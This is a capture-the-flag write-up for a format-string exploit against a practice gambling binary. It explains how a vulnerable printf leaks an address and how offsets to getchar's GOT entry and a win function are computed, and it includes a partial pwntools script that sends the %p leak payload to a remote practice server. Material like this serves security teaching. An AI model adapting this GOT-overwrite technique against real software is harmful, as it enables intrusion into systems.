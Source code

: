 I eventually found this in the gamble function, which if you gamble correctly prints your name with a vulnerable printf, displaying AAAA.0x565ee734.0x100.0x565ec56d.0xff8c3140.0x41414141. Hence, if we look at the first 4 byte segment, this is an address in the text/code region, so we have now leaked an address we can use to create our offsets. Also note our input AAAA is held in offset 5 as 41414141, so we know where our buffer is stored.
 
To jump to the win function, we need to overwrite the address of another function that is called. When looking at do_gamble in binary ninja, we can see after this printf call, the next function call is puts. However, the win function also uses puts, so we can't overwrite this. The next is getchar, so we will attempt to overwrite this.

To find the address of getchar stored in the GOT, we can attach our script to gdb and command got, which displays the address 0x565c252c holds the address for getchar (in this instance). We can than compare this to the leaked address 0x565c2734, and calculating 0x565c2734 - 0x565c252c = 520, so we now know the offset from the leaked address to the getchar entry in the GOT is 520.

Hence, we are going to want to create a payload which overwrites the address 520 bytes before the leaked address with the address of the win function, which using 'x win' in gdb is at 0x565bfab4 (in this instance), giving an offset of 0x565c2734 - 0x565bfab4 = 11392 from the leaked address.

------------------ 
``` 
p = remote("plsdonthaq.me", 4004)

# When the program asks us for our name, we input our first payload such that it
# will print the first 5 addresses on the stack.
p.sendline(b"AAAA.%p.%p.%p.%p.%p")

# Next, to get printf to be called with this payload we just sent, we need to gamble
# successfully. To do so, we enter a loop where we bet the minimum amount and keep
# going until our bet was correct.
while True:
  p.sendline("g")
  p.sendline("0.001")
  p.sendline("1")
  
  p.recvuntil("5)")
  p.recvlines(2)
  gamble = p.recvline()

  p.sendline("")

  if gamble[:5] != b"Wrong":
    break

# After a successful bet, it calls printf with our format string payload, so we can
# extract the leaked address from the output.
address = int(gamble[16:26], 0)

# Given this leaked address, we calculate the address of the GOT's getchar entry, as
# well as the address of the win function using offsets found earlier.
getcharGOT = address - 520
win = address - 11392

# Since the address of the win function changes each time we run, we cannot hardcode
# into the payload. Hence, we want to first extract each byte segment from it. Also
# since the system is little endian, we are going to write them with the least
# significant byte first. We also need to add the 0x to the front of the string so
# python treats it as an address. Finally we convert these addresses to their decimal
# values so we can use it in our payload.
win1 = int('0x' + str(hex(win))[8:10], 0)
win2 = int('0x' + str(hex(win))[6:8], 0)
win3 = int('0x' + str(hex(win))[4:6], 0)
win4 = int('0x' + str(hex(win))[2:4], 0)

```